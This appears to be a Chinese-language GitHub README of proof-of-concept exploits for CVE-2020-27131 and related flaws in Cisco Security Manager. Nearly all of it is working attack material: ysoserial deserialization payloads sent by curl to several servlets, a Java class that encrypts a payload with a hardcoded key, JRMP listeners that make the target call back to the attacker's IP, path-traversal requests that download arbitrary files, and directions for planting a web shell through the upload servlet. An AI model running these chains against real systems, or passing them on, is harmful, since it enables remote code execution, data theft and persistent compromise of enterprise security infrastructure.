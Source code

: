 ## CVE-2020-27131-思科安全管理器反序列化漏洞-POC

## 简介

思科安全管理器是一个企业级安全管理应用程序，可提供对思科安全和网络设备的了解和控制。Cisco Security Manager在广泛的Cisco安全设备中提供全面的安全管理（配置和事件管理），包括Cisco ASA自适应安全设备，Cisco IPS系列传感器设备，Cisco集成服务路由器（ISR），Cisco防火墙服务模块（FWSM） ，Cisco Catalyst，Cisco交换机等等。Cisco Security Manager允许您有效地管理各种规模的网络-从小型网络到包含数百台设备的大型网络。

## POC

### SecretService.jsp  反序列化漏洞

```
java -cp ./commons-beanutils-1.6.1.jar:[YOUR_PATH]]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.GeneratePayload CommonsBeanutils1 "cmd.exe /c calc.exe" > payload_CommonsBeanutils
curl -k --request POST --data-binary "@payload_CommonsBeanutils" https://[TARGET_HOST]/CSCOnm/servlet/SecretService.jsp
```

### CsJaasServiceServlet 反序列化漏洞

Compile JaasEncryptor.java and replace the *b64Payload* content:

```
import java.security.InvalidKeyException;
import java.util.Base64;
import com.cisco.nm.cmf.security.jaas.BlobCrypt;

public class JaasEncryptor {

        public static void main(String args[]) {
                String b64Payload = "rO0ABXN9AAAAAQAaamF2YS5ybWkucmVnaXN0cnkuUmVnaXN0cnl4cgAXamF2YS5sYW5nLnJlZmxlY3QuUHJveHnhJ9ogzBBDywIAAUwAAWh0ACVMamF2YS9sYW5nL3JlZmxlY3QvSW52b2NhdGlvbkhhbmRsZXI7eHBzcgAtamF2YS5ybWkuc2VydmVyLlJlbW90ZU9iamVjdEludm9jYXRpb25IYW5kbGVyAAAAAAAAAAICAAB4cgAcamF2YS5ybWkuc2VydmVyLlJlbW90ZU9iamVjdNNhtJEMYTMeAwAAeHB3MQAKVW5pY2FzdFJlZgAIMTAuMC4wLjIAAAG7AAAAAEBnvkQAAAAAAAAAAAAAAAAAAAB4";

                byte[] payload = Base64.getDecoder().decode(b64Payload);
                byte[] key = new byte[]{-100, 76, -23, 87, 125, 0, 5, 94, 12, 76, 37, -84, 36, 78, 123, 5};
                
                byte[] enc = BlobCrypt.encryptArray(payload, key);
                System.out.println("Encrypted payload: " + Base64.getEncoder().encodeToString(enc));
                byte[] dec = BlobCrypt.decryptArray(enc, key);
        }
}
```

Prepare JRMP Listener:

```
java -cp [YOUR_PATH]/commons-beanutils-1.6.1.jar:[YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 443
java -jar [YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient '[YOUR_IP]]:443' | base64 -w0
```

Compile encrypted payload:

```
javac -cp [YOUR_PATH]]/server_jars_classes/jars.jar:./ JaasEncryptor2.java; java -cp [YOUR_PATH]/server_jars_classes/jars.jar:./ JaasEncryptor
```

Send payload to Servlet with parameters *cmd=data* + new line + *data=[ENCRYPTED_PAYLOAD]*.

### AuthTokenServlet 反序列化漏洞

Prepare JRMP Listener:

```
java -cp [YOUR_PATH]/commons-beanutils-1.6.1.jar:[YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1337 CommonsBeanutils1 "cmd.exe /c calc.exe"
java -jar [YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient '[YOUR_IP]]:1337' > payload_JRMP1_2
```

Send request:

```
curl -k --request POST --data-binary "@payload_JRMP1_2" https://[TARGET_IP]/CSCOnm/servlet/com.cisco.nm.cmf.servlet.AuthTokenServlet
```

### ClientServicesServlet 反序列化漏洞

Prepare JRMP listener:

```
java -cp [YOUR_PATH]/commons-beanutils-1.6.1.jar:[YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1337 CommonsBeanutils1 "cmd.exe /c calc.exe"
java -jar [YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient '[YOUR_IP]:1337' > payload_JRMP1_3
```

Send request:

```
curl -k --request POST --data-binary "@payload_JRMP1_3" https://[TARGET_IP]/CSCOnm/servlet/com.cisco.nm.cmf.servlet.ClientServicesServlet
```

### CTMServlet 反序列化漏洞

```
java -cp ./commons-beanutils-1.6.1.jar:[YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.GeneratePayload CommonsBeanutils1 "cmd.exe /c calc.exe" > payload_CommonsBeanutils1_2
curl -i -s -k -X $'POST' -H $'Content-Type: application/octet-stream' -H $'CTM-URN: com-cisco-nm-vms-ipintel-IpIntelligenceApi' -H $'CTM-VERSION: 1.5' -H $'CTM-PRODUCT-ID: /C:/Program Files (x86)/CSCOpx/MDC/tomcat/vms/athena/WEB-INF/lib/' -H $'Cache-Control: no-cache' -H $'Pragma: no-cache' -H $'User-Agent: Java/1.8.0_222' -H $'Host: [TARGET_IP]' -H $'Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2' -H $'Connection: keep-alive' --data-binary "@payload_CommonsBeanutils1_2" $'https://[TARGET_IP]/athena/CTMServlet'
```

### XdmConfigRequestHandler任意文件下载

```
GET /athena/xdmProxy/xdmConfig[RELATIVE_PATH_TO_FILE]
```

### XdmResourceRequestHandler 任意文件下载

```
GET /athena/xdmProxy/xdmResources[RELATIVE_PATH_TO_FILE]?dmTargetType=TARGET.IDS&dmOsVersion=7.&command=editConfigDelta
```

### XmpFileUploadServlet 任意文件上传

Write a web shell e.g.

```
POST /cwhp/XmpFileUploadServlet?maxFileSize=100
```

Normal multi-part e.g. writing web shell in *filename* with*../../MDC/tomcat/webapps/cwhp/testme.jsp*.

### XmpFileDownloadServlet 任意文件下载

```
GET /cwhp/XmpFileDownloadServlet?parameterName=downloadDoc&downloadDirectory=[RELATIVE_PATH_TO_DIRECTORY]&readmeText=1
```

This will respond with a ZIP file containing all files from the directory.

### SampleFileDownloadServlet 任意文件下载

```
GET /cwhp/SampleFileDownloadServlet?downloadZipFileName=pwned&downloadFiles=README&downloadLocation=[RELATIVE_PATH_TO_DIRECTORY]
```

This will respond with a ZIP file containing all files from the directory.

### resultsFrame.jsp 任意文件下载

```
GET /athena/itf/resultsFrame.jsp?filename=[RELATIVE_PATH_TO_FILE]
```

### SecretServiceServlet 反序列化漏洞

See also https://de.tenable.com/security/research/tra-2017-23

```
java -cp [YOUR_PATH]/commons-beanutils-1.6.1.jar:[YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1337 CommonsBeanutils1 "cmd.exe /c calc.exe"
java -jar [YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient '[YOUR_IP]:1337' > payload_JRMP1_2
curl -k --request POST --data-binary "@payload_JRMP1_2" https://[TARGET_IP]/CSCOnm/servlet/com.cisco.nm.cmf.servlet.SecretServiceServlet
```

## 参考

https://www.zdnet.com/article/cisco-reveals-this-critical-bug-in-cisco-security-manager-after-exploits-are-posted-patch-now/

